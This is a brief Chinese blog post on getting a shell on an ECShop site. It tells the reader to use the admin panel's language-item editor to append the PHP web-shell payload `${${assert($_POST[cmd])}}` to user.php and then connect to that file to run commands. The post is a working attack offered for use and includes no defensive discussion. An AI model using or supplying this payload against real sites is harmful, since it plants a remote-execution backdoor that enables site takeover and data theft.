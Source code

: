 ```yaml
---
title: "ecshop 后台 getshell"
date: 2018-01-07T00:00:00+08:00
draft: false
tags: ['cms']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


ecshop 后台 getshell

<!--more-->

模板管理 - 语言项编辑

下拉栏选择 user.php 搜索 用户信息

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/07/1515297913.jpg)

后面加上代码

`${${assert($_POST[cmd])}}`

确认修改

连接 根目录下 user.php

屡试不爽
